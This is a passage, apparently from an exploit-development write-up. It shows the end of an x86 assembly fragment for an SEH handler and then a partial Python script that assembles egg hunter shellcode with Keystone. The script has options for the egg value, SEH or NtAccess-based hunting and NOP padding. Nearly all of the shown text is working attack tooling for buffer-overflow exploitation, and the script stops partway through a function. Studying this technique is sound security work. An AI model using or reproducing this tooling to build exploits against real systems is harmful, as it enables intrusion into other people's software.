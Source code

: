 ```
            "		add dword ptr ds:[eax+ecx], 0x06	;"
            "		pop eax 							;"
            "		add esp, 0x10 						;"
            "		push eax 							;"
            "		xor eax, eax 						;"
            "		ret 								;"
        )
```

### Scripts
Finally You can use the following code to generate your own egg hunter:
```
import sys
import os
import argparse
from keystone import *

OUTPUT_PATH = None
ARGS = None

def setup_arguments():
    parser = argparse.ArgumentParser(description='EggHunter Generator.')
    parser.add_argument('--egghunter', action='store_true', help='Enable egg hunter mode.')
    parser.add_argument('--egg', help='Egg to use with the egg hunter, must be exactly 4 characters long.')
    parser.add_argument('--seh', action='store_true', help='Use SEH based egg hunter.')
    parser.add_argument('--ntaccess', help='Use NTACCESS based egg hunter, requires a value.')
    parser.add_argument('--nopbefore', type=int, default=0, help="Number of Nops to add before the Egghunter.")
    parser.add_argument('--nopafter', type=int, default=0, help="Number of Nops to add after the Egghunter.")
    parser.add_argument('-o', '--output', help='Output file of the founded results, e.x: -o "C:\\output.txt".')
    return parser.parse_args()

def calculate_negated_syscall(syscall_num):
    syscall_int = int(syscall_num, 16)
    negated_syscall = 0x100000000 - syscall_int
    return format(negated_syscall, '08x')

def string_to_hex(str_value):
    return ''.join(format(ord(c), '02x') for c in str_value)

def to_little_endian(hex_string):
    byte_array = bytes.fromhex(hex_string)
    little_endian_bytes = byte_array[::-1]
    little_endian_hex = little_endian_bytes.hex()
    return little_endian_hex

def generate_egghunter(CODE):
    ks = Ks(KS_ARCH_X86, KS_MODE_32)
    encoding, count = ks.asm(CODE)
    instructions = ""
    for dec in encoding:
        instructions += "\\x{0:02x}".format(int(dec)).rstrip("\n")
    return (encoding, instructions)

def egghunter_seh(egg):
    nop_count_before = ARGS.nopbefore
    nop_count_after = ARGS.nopafter

    if not egg or len(egg) != 4:
        print("[!] The EGG must be provided and be exactly 4 characters long.")
```